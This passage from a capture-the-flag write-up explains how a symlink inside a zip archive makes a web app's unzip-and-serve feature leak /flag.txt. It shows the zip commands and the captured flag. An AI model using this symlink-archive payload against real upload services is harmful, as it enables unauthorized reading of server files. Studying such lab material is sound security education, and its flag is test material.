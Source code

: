     services:
      web:
        build: web
        restart: always
        ports:
          - 8080:5000
        volumes:
          - ./flag:/flag.txt:ro
    ```
#### Construct Payload
* So, our first idea is using symbolic link to create a `payload.txt` that link to `/flag.txt` and compress with `index.html` then upload to the web page.
* Payload
    ```bash!
    touch index.html
    ln -s /flag.txt payload.txt
    zip --symlinks -ry index.zip payload.txt index.html
    ```
    Then rewrite the URL like this: https://share.ctf.zoolab.org/static/123/payload.txt

    <font color="FF0000">FLAG{w0W_y0U_r34L1y_kn0w_sYmL1nK!}</font>

#### Reference
[unzipper-ctftime](https://ctftime.org/writeup/31867)
[unzipper-mikecat](https://mikecat.github.io/ctf-writeups/2021/20211218_hxp_CTF_2021/WEB/unzipper/#en)
[unzipper-nandynarwhals](https://nandynarwhals.org/hxp-ctf-2021-unzipper/)
[電腦王-symbolic link](https://www.techbang.com/posts/12538-hard-links-soft-links-archives-does-not-fashu)
[Ithelp - symbolic link](https://ithelp.ithome.com.tw/articles/10222754)